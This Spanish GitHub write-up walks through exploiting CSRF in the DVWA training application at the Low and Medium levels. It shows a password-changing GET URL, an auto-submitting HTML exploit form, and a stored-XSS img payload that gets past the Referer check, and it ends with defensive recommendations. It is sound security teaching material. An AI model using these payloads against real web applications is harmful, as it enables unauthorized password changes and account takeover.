 # 🛡️ DVWA - Cross Site Request Forgery (CSRF) - Low y Medium

En este repositorio se explica cómo explotar la vulnerabilidad **CSRF (Cross Site Request Forgery)** en los niveles **Low** y **Medium** dentro de **DVWA (Damn Vulnerable Web Application)**.

---

## 🎯 Objetivo

Realizar un ataque CSRF para **cambiar la contraseña de un usuario autenticado sin su consentimiento**, aprovechando la ausencia o debilidad de protecciones en el formulario vulnerable. Esto se puede lograr mediante técnicas de ingeniería social como enviar un enlace por email o redirigir a la víctima a una página maliciosa.

---

## 🔧 Nivel Low

### 🧪 Vulnerabilidad detectada
- No hay validación de origen ni token CSRF.
- El código fuente `low.php` acepta peticiones GET directamente sin verificar el origen ni incluir ningún token de seguridad.
- Además, al inspeccionar el botón Test Credentials, se observa un script que abre una ventana con `test_credentials.php`, útil para comprobar si la contraseña ha sido modificada.
- Usando **Burp Suite**, es posible interceptar y observar una petición GET.

---

### 🛠 Paso a paso

1. Inspeccionamos el elemento desde el apartado de CSRF y vemos que el botón **Test Credentials** ejecuta un script, el cual verifica si la contraseña se ha cambiado correctamente.

![Inspeccionar_Elemento](assets/CSRFL_Inspeccionar.png) 
   
2. Damos click en **Test Credentials** y vemos que podemos comprobar la contraseña del usuario *admin* y su contraseña por defecto *password*.

![Test_Credentials](assets/CSRFL_TestCredentials.png) 

3. Cambiamos la contraseña, introduciendo esta dos veces, y damos click en **Change**.
4. Vemos con la herramienta **Burp Suite** que en la petición GET podemos ver una URL desde donde se puede cambiar la contraseña.
```php
GET /dvwa/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change
```

![Cambio_contraseña](assets/CSRFL_GETChange.png) 

5. Copiamos esta URL y la pegamos sobre nuestro navegador.

![Copiar_URL](assets/CSRFL_URL.png) 

6. Realizamos cambios de la contraseña a *test123* desde la URL.

![Cambiar_contraseña_URL](assets/CSRFL_URLv2.png) 

7. Comprobamos que esta contraseña ha sido cambiada al haber modificado la URL y accedido al sitio web.

![Comprobar_contraseña](assets/CSRFL_test123.png) 


✅ **Exploit exitoso**: la contraseña cambia sin interacción del usuario.

---

## 🔧 Nivel Medium

### 🧪 Vulnerabilidad detectada
- El código `medium.php` realiza una validación del `HTTP_REFERER`, exigiendo que el origen de la petición sea el mismo dominio que el del servidor `SERVER_NAME`.
- Esto impide que ataques externos funcionen directamente, pero se puede **bypassear usando una vulnerabilidad de tipo XSS almacenado**.

### 🛠 Paso a paso (XSS + CSRF combinados)

1. Creamos el archivo `exploit.html` con el siguiente contenido:

```html
<html>
  <body>
    <form action="http://127.0.0.1/dvwa/vulnerabilities/csrf/" method="GET">
      New password:<br />
      <input type="hidden" AUTOCOMPLETE="off" name="password_new" value="test123" /><br />
      Confirm new password:<br />
      <input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="test123" /><br />
      <input type="hidden" value="Change" name="Change" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

2. Intentamos ejecutar este exploit en el Navegador firefox.

```html
firefox exploit.html
```

Sin embargo, la salida no es la esperada, ya que no se modifica la contraseña del usuario.

![Post_Exploit](assets/CSRFM_PostExploit.png)

3. Ahora bajamos la seguridad a *Low* de nuevo, accedemos al apartado **XSS (Stored)** e inspeccionamos esta página, donde aumentaremos el valor de `MaxLength` a 250 para poder introducir el siguiente código en la sección *message*:

```html
<img src="/dvwa/vulnerabilities/csrf/?password_new=test123&password_conf=test123&Change=Change">
```

![CambioMaxLength_Comando](assets/CSRFM_MaxLengComando.png)

4. El administrador, al visitar la sección del libro de visitas (`XSS Stored`), ejecutará la petición hacia la ruta CSRF. El referer será el propio DVWA, por lo tanto, **el filtro de origen en Medium no bloqueará la petición**.

![Peticion_CambioPass](assets/CSRFM_PeticionCambioPass.png)

En la siguiente petición vemos como la contraseña es cambiada desde la sección XSS_S.

![Peticion_CambioPassv2](assets/CSRFM_CambioPass.png)

5. Verifica el cambio con `Test Credentials`.

![TestCredentials](assets/CSRFM_TestCredentials.png)

✅ **Exploit exitoso**: el uso de XSS para forzar una petición interna permite superar el control del `HTTP_REFERER`.

📌 **Nota técnica:** aunque parezca una protección, el referer es manipulable o predecible en ciertos contextos. No es una defensa efectiva por sí sola.

---

## ⚠️ Recomendaciones de seguridad

Para prevenir ataques CSRF:

- Usar tokens CSRF únicos por sesión y validados en el servidor.
- Verificar cabeceras de origen (`Origin` o `Referer`).
- No permitir cargas de archivos ejecutables.
- Aplicar SameSite en cookies para restringir su envío.
- Rechazar peticiones GET para cambios sensibles como contraseñas.
- Separar correctamente los contextos de entrada de datos para prevenir XSS.

---

## 📚 Recursos

- 🔗 [Writeup de Aftab Sama sobre CSRF](https://aftabsama.com/writeups/dvwa/cross-site-request-forgery-csrf/)
- ▶️ [Vídeo tutorial de CSRF en DVWA](https://www.youtube.com/watch?v=Nfb9E8MJv6k&list=PLHUKi1UlEgOJLPSFZaFKMoexpM6qhOb4Q&index=4)
- 📖 [OWASP - CSRF](https://owasp.org/www-community/attacks/csrf)

